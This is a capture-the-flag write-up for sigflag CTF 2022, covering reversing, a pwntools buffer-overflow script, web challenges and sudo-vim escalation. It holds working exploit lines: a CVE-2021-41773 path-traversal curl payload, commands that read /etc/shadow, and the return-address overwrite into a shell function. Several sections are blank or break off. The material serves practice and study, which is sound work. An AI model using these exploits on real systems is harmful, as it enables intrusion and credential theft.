








# sigflag CTF 2022

## Hardware

### SPI Flash

Easy: SIG{I_READ_THE_INTRO}

###  SPI Flash S01 

```
$ strings flash.bin | rg SIG
SIGFLAGMEM FAT16   
SIGFLAGMEM 
SIG{S01_FAT_boy_cannot_find_me}
eSIG
```

`SIG{S01_FAT_boy_cannot_find_me}`

###  SPI Flash S02 

We can mount the filesystem:
```
$ sudo mount flash.bin /mnt/test  
$ exa -alh /mnt/test
Permissions Size User Date Modified Name
.rwxr-xr-x  214k root 22 Okt 23:08  .ascii
.rwxr-xr-x    65 root 22 Okt 23:08  flag.txt
.rwxr-xr-x  9,7M root 22 Okt 23:08  secure.zip
```

Let's try and read the flag: 
```
$ cat /mnt/test/flag.txt
U0lHe1MwMl9ub19wbGFpbnRleHR9CnBhc3N3b3JkOmZhZXF1dWlsOHVWYWhuZTEK
```

This looks encoded, let's try and throw it into [CyberChef](TODO) with the `Magic` block:


Oh, so it's just Base64:
```
SIG{S02_no_plaintext}
password:faequuil8uVahne1
```

Nice, we got our next flag: `SIG{S02_no_plaintext}`

### SPI Flash S03

We can extract the zip file with the password from the previous challenge. We can search the file for flags again:
```
$ strings Lost\ Woods.mp3 | rg SIG
SIG{S03_hypersecure_compression}
```

And it worked: `SIG{S03_hypersecure_compression}`

###  SPI Flash S04 

```
$ exa -alh /mnt/test
Permissions Size User Date Modified Name
.rwxr-xr-x  214k root 22 Okt 23:08  .ascii
.rwxr-xr-x    65 root 22 Okt 23:08  flag.txt
.rwxr-xr-x  9,7M root 22 Okt 23:08  secure.zip
```

If you paid close attention to the output, you can see the `.ascii` file. You can open it in any text editor where you can zoom out and you'll get this image: 


Flag: `SIG{S04_I_LIKE_ASCIInema}`


## Reversing

### Reversing Noob

We can take a look at all the strings embedded inside the program and then just filter them. 
```
$ strings level1 | rg SIG
SIG{r3v3rs1ng_1s_fun}
```

### Reversing Trainee

If we try to use `strings` again, we'll just see a format string:
```
$ strings level2 | rg SIG
Correct! The flag is SIG{%s}
```

If we open the binary in [Ghidra](TODO), we can see the following pseudocode for `main()`:
```c
undefined8 main(undefined4 param_1)
{
  int iVar1;
  size_t sVar2;
  long in_FS_OFFSET;
  undefined4 local_2c;
  char local_28 [24];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_2c = param_1;
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  printf("What is the secret?\n> ");
  fgets(local_28,0x14,stdin);
  printf("Got \"%s\"",local_28);
  sVar2 = strlen(local_28);
  local_28[sVar2 - 1] = '\0';
  iVar1 = checkpassword(local_28);
  if (iVar1 == 1) {
    printf("Correct! The flag is SIG{%s}\n",local_28);
  }
  else {
    puts("That was not it!");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

As you can see, there's a call to `checkpassword`. Let's go over the pseudocode: 
- `param_1`: User input
- `local_28`-`local_18`: Variables defined one after each other on the stack. This is equivalent to an array, but Ghidra doesn't recognize it. By default, these values are just shown as integers, but you can change their type by right clicking and selecting `Char` representation.

```c
bool checkpassword(char *param_1)
{
  int iVar1;
  long in_FS_OFFSET;
  char local_28;
  undefined local_27;
  undefined local_26;
  undefined local_25;
  undefined local_24;
  undefined local_23;
  undefined local_22;
  undefined local_21;
  undefined local_20;
  undefined local_1f;
  undefined local_1e;
  undefined local_1d;
  undefined local_1c;
  undefined local_1b;
  undefined local_1a;
  undefined local_19;
  undefined local_18;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_28 = 'd';
  local_27 = 'y';
  local_26 = 'n';
  local_25 = '4';
  local_24 = 'm';
  local_23 = '1';
  local_22 = 'c';
  local_21 = '_';
  local_20 = '4';
  local_1f = 'n';
  local_1e = '4';
  local_1d = 'l';
  local_1c = 'y';
  local_1b = '5';
  local_1a = '1';
  local_19 = '5';
  local_18 = 0;
  iVar1 = strcmp(param_1,&local_28);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return iVar1 == 0;
}
```

At the very end, there's a call to `strcmp` which compares the string against our input. Thus, our flag is: `SIG{dyn4m1c_4n4ly515}`

### Reversing Master

Opening the binary in Ghidra again, we can notice that it's quite similar and that there's a `checkpassword` function again. Let's take a look how it's defined (I renamed some of the variables to make it easier to understand):

```c
bool checkpassword(char *flag)
{
  long i;
  uint diff;
  
  i = 0;
  diff = 0;
  do {
    diff = diff | *(uint *)(flag + i) ^ *(uint *)(MAGIC1 + i) ^ *(uint *)(MAGIC2 + i);
    i = i + 4;
  } while (i != 16);
  return diff == 0;
}
```

Let's simplify it even more:
```c
def solve(flag):
  for i in range(0, 16):
    diff |= flag ^ magic1[i] ^ magic2[i]

  return diff == 0
```

As you may know, XOR (exclusive or) can only return 0 if we have the same value. So we can precompute the magic values, and get the flag:

```python
magic = [
    0x67,
    0x45,
    0x8B,
    0x6B,
    0xC6,
    0x23,
    0x7B,
    0x32,
    0x69,
    0x98,
    0x3C,
    0x64,
    0x73,
    0x48,
    0x33,
    0x66,
]

magic2 = [
    0x34,
    0x0C,
    0xCC,
    0x10,
    0xF7,
    0x10,
    0x48,
    0x05,
    0x36,
    0xF0,
    0x08,
    0x1C,
    0x0B,
    0x78,
    0x41,
    0x1B,
]

for i in range(0, len(magic)):
    print(chr(magic[i] ^ magic2[i]), end="")
```

This script returns the flag: `SIG{1337_h4xx0r}`

## PWN

### Tiny Buffer

We have to find a buffer overflow in the binary. We can do so by just entering a random amount of characters when executing the binary until we crash: 
```
$ ./pwn1
I sure hope noone calls shell()...
Give me some input
> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Alright you gave me AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�@
fish: Job 1, './pwn1' terminated by signal SIGSEGV (Address boundary error)
```

Nice! We can now try to the the minimum number of characters by repeating the same process. You'll notice that we can pass 32 characters without breaking the program. So what happens if we pass 40 or 48 characters? Let's find out.

Luckily, we can attach gdb via our python script:
```python
from pwn import *

context(arch = 'amd64', os = 'linux', terminal=['tmux', 'split-window', '-h'])

io = process("./pwn1")
gdb.attach(io, gdbscript='continue')

print(io.recvuntil(b">", drop=False))

payload = 32 * b"A"
payload += p64(0x0)             # rbp
payload += p64(0xdeadbeef)      # rip

io.sendline(payload)
io.interactive()
```

We can print all the registers with the `info registers` (short: `i r`) command:
```
(gdb) info registers
rax            0x48                72
rbx            0x4002e0            4195040
rcx            0x4339c0            4405696
rdx            0x6b4720            7030560
rsi            0x7fffffff4750      140737488308048
rdi            0x0                 0
rbp            0x4242424242424242  0x4242424242424242
rsp            0x7fffffff6de8      0x7fffffff6de8
r8             0x6b6880            7039104
r9             0x48                72
r10            0xffffffffffffffff  -1
r11            0x246               582
r12            0x401770            4200304
r13            0x401800            4200448
r14            0x0                 0
r15            0x0                 0
rip            0xdeadbeef          0xdeadbeef
eflags         0x10206             [ PF IF RF ]
cs             0x33                51
ss             0x2b                43
```

As you can see, we overwrote rbp and rip. We can now set rip to whereever we want and the code execution will continue from there. If you opened the binary in Ghidra or IDA, you probably noticed the shell function. It calls `system` with `/bin/sh` as param. 

```
.text:0000000000400B83 shell           proc near
.text:0000000000400B83 ; __unwind {
.text:0000000000400B83                 push    rbp
.text:0000000000400B84                 mov     rbp, rsp
.text:0000000000400B87                 lea     rdi, aBinSh     ; "/bin/sh"
.text:0000000000400B8E                 call    system
.text:0000000000400B93                 nop
.text:0000000000400B94                 pop     rbp
.text:0000000000400B95                 retn
.text:0000000000400B95 ; } // starts at 400B83
```

**Setting rip to 0x400B83 (start of shell function) won't work!** Why? Because we are overwriting rbp (stack base pointer) with some random value which won't be valid. We can get around that by just jumping to the call and parameter setup at `0x400B87` directly. Now it works and we get flag. 

## Crypto

### Homemade Crypto

We can connect to a server and encrypt or decrypt something. Let's try to decrypt the flag.
```
$ nc game.sigflag.at 3004
What would you like to do ?
[1] Encrypt something
[2] Decrypt something
[3] Shut down
--> 2
Please enter your encrypted message
--> 0xbfda36fe05ae4e94fa2e9ff4ea5e655222dcef4fd5da2044f04d7d4af250
ERROR: Refusing to decrypt flags for security reasons
```

Hmm, they detect that. Probably by comparing the decrypted output if it contains the `SIG{` prefix. Let's try and remove the leading number. 
```
$ nc game.sigflag.at 3004
What would you like to do ?
[1] Encrypt something
[2] Decrypt something
[3] Shut down
--> 2
Please enter your encrypted message
--> 0xfda36fe05ae4e94fa2e9ff4ea5e655222dcef4fd5da2044f04d7d4af250
Traceback (most recent call last):
  File "/challenge.py", line 65, in <module>
    start()
  File "/challenge.py", line 57, in start
    decrypt()
  File "/challenge.py", line 37, in decrypt
    cleartext=binascii.unhexlify(hex(decrypted)[2:])
binascii.Error: Odd-length string
```

```
$ nc game.sigflag.at 3004 
What would you like to do ?
[1] Encrypt something
[2] Decrypt something
[3] Shut down
--> 2
Please enter your encrypted message
--> 0xda36fe05ae4e94fa2e9ff4ea5e655222dcef4fd5da2044f04d7d4af250
Decryptio
```

## Web

### Apache Semester 1

we have to find all hidden exam questions. the first one is linked in the HTML and not hard to find: `http://game.sigflag.at:3071/questions.txt`

```
<h1>1 Semester Exam Questions</h1>

<a href="questions.txt">questions.txt</a>
```

### Apache Semester 2

the second set of questions can be accessed by clicking on the link in the DevTools (`http://game.sigflag.at:3072/harder-questions.txt`), bypassing the script.

```
<h1>2 Semester Exam Questions</h1>

<a href="harder-questions.txt" onclick="alert('You are not supposed to access this!'); return false;">Questions</a>
```


### Apache Semester 3

the third set of questions can be accessed only with authentication at `http://game.sigflag.at:3073/intermediate-questions.txt`.

luckily, the professor left us the passwords `http://game.sigflag.at:3073/passwords.txt`:

```
Username: professor
Password: ThisIsMySuperSecurePassword

Note to self: Change this every 24 hours
File last edited: 21.09.2005
```


### Apache Semester 4

both `.htaccess` and `.htpasswd` were exposed:

`https://game.sigflag.at:3084/exam/.htaccess`:

```
# This file is not accessible for visitors.
# Except you mess up the configuration of course...

AuthUserFile /usr/local/apache2/htdocs/.htpasswd
AuthType Basic
AuthName "4 Semester Exam"
Require valid-user
```

`https://game.sigflag.at:3084/.htpasswd`:

```
# professor:PlainTextPasswordsAreToBeAvoided
professor:$apr1$r7moi2dx$v4ty7TUbdmJuR2Ha0zWLt1
```

### Apache Semester 5

This is the hint we have:

```
<Directory />
  Require all granted
  Options +Indexes
</Directory>

Alias /admin /
```

we can browse the file system by going to `http://game.sigflag.at:3075/admin` and eventually find the questions here: `http://game.sigflag.at:3075/admin/opt/well_hidden_questions.txt`

### Apache Semester 6

```
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<html>
 <head>
  <title>Index of /exam</title>
 </head>
 <body>
<h1>Index of /exam</h1>
<ul><li><a href="/"> Parent Directory</a></li>
<li><a href="1st_castle.txt"> 1st_castle.txt</a></li>
<li><a href="another_castle.txt"> another_castle.txt</a></li>
<li><a href="linear_algebra.txt"> linear_algebra.txt</a></li>
<li><a href="portal.txt"> portal.txt</a></li>
</ul>
</body></html>
```

The questions could be found at `http://game.sigflag.at:3076/exam/questions.txt`, without any password.

### Apache Semester 7

the hint given was `CVE-2021-41773` - a search online revealed ways exploit it

```bash
curl "https://game.sigflag.at:3087/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/home/bpfh/flag.txt" --insecure --path-as-is  
```

### A1

get the info of user `flag1`: `http://game.sigflag.at:3002/userinfo/flag1`

```python
users = DefaultDict(
    {
        "test": "test",
        "flag1": environ["FLAG1"],
        "local": environ["FLAG10"],
        "admin": environ["FLAG5"],
    }
)
```

```python
@data.get("/userinfo/{username}")
async def userinfo(username: int | str, request: Request, authorize: AuthJWT = Depends()):
    if username == "admin":
        authorize.jwt_required()  # protect the admins!
        if authorize.get_raw_jwt().get("superadmin", False):
            return {"I thought we disabled this feature": environ["FLAG7"]}
    if username == "local":
        if not request.client.host == "127.0.0.1":
            raise HTTPException(401, "You are not localhost")
    if not (password := users[username]):
        return {
            "Will you stop having an invalid password if I give you a flag?": environ[
                "FLAG8"
            ]
        }
    return {"name": username, "pass": password}
```


### A2

### A3

log in with user `FLAG3` pw `FLAG3`

```python
FORBIDDEN = "FLAG3"
```

```python
@auth.post("/login")
async def login(username=Form(), password=Form(), authorize: AuthJWT = Depends()):
    """Possible users are test, flag1, local, admin"""
    if users.get(username) != password:
        return JSONResponse({"msg": "Bad username or password"}, 401)
    if username == FORBIDDEN:
        users.pop(FORBIDDEN)
        return {
            "This user shouldn't exist, I'll give you a flag to keep it a secret": environ[
                FORBIDDEN
            ]
        }
    access_token = authorize.create_access_token(
        subject=username, user_claims={"superadmin": password == "super"}
    )
    resp = RedirectResponse("/")
    authorize.set_access_cookies(access_token, resp)
    return resp
```

### A4

since every call of the `/proxy` endpoint takes at least 1 second, we can chain 5 together to get to the 5 second threshold: `http://game.sigflag.at:3002/proxy/proxy/proxy/proxy/proxy/proxy`

```python
@app.middleware("http")
async def timeout_middleware(request: Request, call_next):
    """if a user crafts a request that takes >5 secs, abort"""
    try:
        return await asyncio.wait_for(call_next(request), timeout=5.0)
    except asyncio.TimeoutError:
        return JSONResponse(
            {"Will you stop DDOSing me for a flag?": environ["FLAG4"]}, status_code=504
        )
```

```python
@data.get("/proxy/{path:path}")
def localproxy(path: str):
    """Yo dawg, I heard you like... <br/> Delayed for ddos protection"""
    time.sleep(1)
    return PlainTextResponse(requests.get("http://localhost/" + path).text)
```

### A5

since we only need some JWT cookie (the content is never checked), we can log in as any user and get the admin password: `http://game.sigflag.at:3002/userinfo/admin`

```python
users = DefaultDict(
    {
        "test": "test",
        "flag1": environ["FLAG1"],
        "local": environ["FLAG10"],
        "admin": environ["FLAG5"],
    }
)
```

```python
@data.get("/userinfo/{username}")
async def userinfo(username: int | str, request: Request, authorize: AuthJWT = Depends()):
    if username == "admin":
        authorize.jwt_required()  # protect the admins!
        if authorize.get_raw_jwt().get("superadmin", False):
            return {"I thought we disabled this feature": environ["FLAG7"]}
    if username == "local":
        if not request.client.host == "127.0.0.1":
            raise HTTPException(401, "You are not localhost")
    if not (password := users[username]):
        return {
            "Will you stop having an invalid password if I give you a flag?": environ[
                "FLAG8"
            ]
        }
    return {"name": username, "pass": password}
```

### A6

### A7

### A8

because the userinfo endpoint takes integers, we can use the username `0` to get flag 8 since the integer `0` is falsy: `http://game.sigflag.at:3002/userinfo/0`
    

```python
@data.get("/userinfo/{username}")
async def userinfo(username: int | str, request: Request, authorize: AuthJWT = Depends()):
    if username == "admin":
        authorize.jwt_required()  # protect the admins!
        if authorize.get_raw_jwt().get("superadmin", False):
            return {"I thought we disabled this feature": environ["FLAG7"]}
    if username == "local":
        if not request.client.host == "127.0.0.1":
            raise HTTPException(401, "You are not localhost")
    if not (password := users[username]):
        return {
            "Will you stop having an invalid password if I give you a flag?": environ[
                "FLAG8"
            ]
        }
    return {"name": username, "pass": password}
```

### A9

flag 9 is only shown if an exception is triggered and the request comes from localhost

if we call the `/crypto` endpoint with no parameters, we can trigger the exception - and the request comes from localhost if we send it through the `/proxy` endpoint: `http://game.sigflag.at:3002/proxy/crypto`

```python
@data.get("/crypto")
async def crypto_guess(
        request: Request, authorize: AuthJWT = Depends(), guess: str = "base64encoded"
):
    """You'll get TWO flags, if you can guess the b64-signature of the flags. <br/>
    This crypto issue wouldn't happen if we used AuthJWT properly. <br/>
    We'll use the algo from your token. You may want to look at the source code."""
    algo = jwt_algo(authorize, request)
    payload = {environ["FLAG6"]: environ["FLAG2"]}
    if jwt_signature(payload, algo) == guess:
        return JSONResponse(list(payload.values()), 200)
    else:
        raise HTTPException(
            401, "Invalid guess or algorithm. Do you know all the jwt-algorithms?"
        )
```

```python
@data.get("/proxy/{path:path}")
def localproxy(path: str):
    """Yo dawg, I heard you like... <br/> Delayed for ddos protection"""
    time.sleep(1)
    return PlainTextResponse(requests.get("http://localhost/" + path).text)
```

```python
@app.exception_handler(Exception)
def general_exception_handler(req: Request, exc: Exception):
    """For debugging, local users should get a full stack trace"""
    if req.client.host == "127.0.0.1":
        try:
            raise exc
        except Exception:  # noqa
            return PlainTextResponse(format_exc() + environ["FLAG9"], status_code=500)
    else:
        return PlainTextResponse(str(exc), 500)
```

### A10

we can only access the user info of the `local` user if the request comes from localhost

the `/proxy` endpoint allows us to send requests to localhost: `http://game.sigflag.at:3002/proxy/userinfo/local`

```python
users = DefaultDict(
    {
        "test": "test",
        "flag1": environ["FLAG1"],
        "local": environ["FLAG10"],
        "admin": environ["FLAG5"],
    }
)
```

```python
@data.get("/proxy/{path:path}")
def localproxy(path: str):
    """Yo dawg, I heard you like... <br/> Delayed for ddos protection"""
    time.sleep(1)
    return PlainTextResponse(requests.get("http://localhost/" + path).text)
```

```python
@data.get("/userinfo/{username}")
async def userinfo(username: int | str, request: Request, authorize: AuthJWT = Depends()):
    if username == "admin":
        authorize.jwt_required()  # protect the admins!
        if authorize.get_raw_jwt().get("superadmin", False):
            return {"I thought we disabled this feature": environ["FLAG7"]}
    if username == "local":
        if not request.client.host == "127.0.0.1":
            raise HTTPException(401, "You are not localhost")
    if not (password := users[username]):
        return {
            "Will you stop having an invalid password if I give you a flag?": environ[
                "FLAG8"
            ]
        }
    return {"name": username, "pass": password}
```

## Misc

### Sudo Vim 1

because we can execute vim via sudo, we can use it to execute commands as root via `:!`

the first flag is in root's home

```bash
# in vim
:!cat /root/flag
```

### Sudo Vim 2

the second flag is in the environment

this command can be executed without root privileges

```bash
printenv
```

### Sudo Vim 3

the next flag is in the passwd file, accessible to everyone

```bash
cat /etc/passwd
```

### Sudo Vim 4

the next flag is in the shadow file, only accessible to root

```bash
# in vim
:!cat /etc/shadow
```

### Sudo Vim 5

the next flag is also in the shadow file, but base64 encoded

```bash
# in vim
:!cat /etc/shadow
```

decode `U0lHe00wNS1TbGlnaHRseUIzdHRlckhpZGRlblBhc3N3b3JkfQ==` (base64)

### Sudo Vim 6

the 6th flag is in the root home directory, hidden from `ls` since it's prefixed with `.`

```bash
#in vim
:!cat /root/.flag
```

### Sudo Vim 7

the next flag is also there, but base85 encoded

```bash
# in vim
:!cat /root/.encryptedflag85
```

decode ``;b9K+9e\LX6=FqH2De!H=(-ARDf8'QF*U5nE\`?^dF+"`` (base85)

### Sudo Vim 8

the last flag is revealed by executing `man`:

```bash
man
```

## Stego

### Mysterious Git

get the dates `git log --pretty=format:"%ad" | cat` and use the hours/minutes as coordinates in a 60x60 image:

```js
const input = `Sat Jan 1 02:45:00 2000 +0100
Sat Jan 1 02:41:00 2000 +0100
...
Sat Jan 1 15:01:00 2000 +0100`;

const result = [];
for (let i = 0; i < 60; ++i) {
  result[i] = [...new Array(60)].fill(" ");
}

const times = input
  .replace(/Sat Jan 1 /gi, "")
  .replace(/:00 2000 \+0100/gi, "")
  .split("\n");

for (const time of times) {
  const [hour, minute] = time.split(":").map((t) => +t);
  result[hour][minute] = "■";
}

console.log(
  result
    .reverse()
    .map((a) => a.join(""))
    .join("\n")
);
```

```
 ■■■■  ■■■   ■■■     ■          ■    ■
■       ■   ■   ■   ■    ■■■   ■■    ■         ■■■
 ■■■    ■   ■      ■    ■   ■   ■   ■■■       ■   ■
    ■   ■   ■  ■■   ■   ■   ■   ■    ■   ■■■  ■   ■
    ■   ■   ■   ■   ■    ■■■■   ■    ■         ■■■■
■■■■   ■■■   ■■■■    ■      ■  ■■■   ■■           ■
                         ■■■                   ■■■

                          ■      ■           ■
■  ■      ■       ■■■    ■ ■    ■ ■   ■       ■
■  ■      ■       ■  ■  ■   ■  ■   ■  ■        ■
■  ■   ■■■■  ■■■  ■  ■  ■   ■  ■   ■  ■■■■    ■
■  ■  ■   ■       ■  ■   ■ ■    ■ ■   ■   ■   ■
 ■■■   ■■■■       ■  ■    ■      ■    ■■■■   ■
```

### Pixel Castle

if you assign the dark squares of the poster `1` and the light squares `0`, then this binary message translates to `The challenge is in another castle!`



## Forensic

### Wireshark 1



### Wireshark 2



the certificate can be parsed with CyberChef:



### Wireshark 3



this string can be parsed with CyberChef:


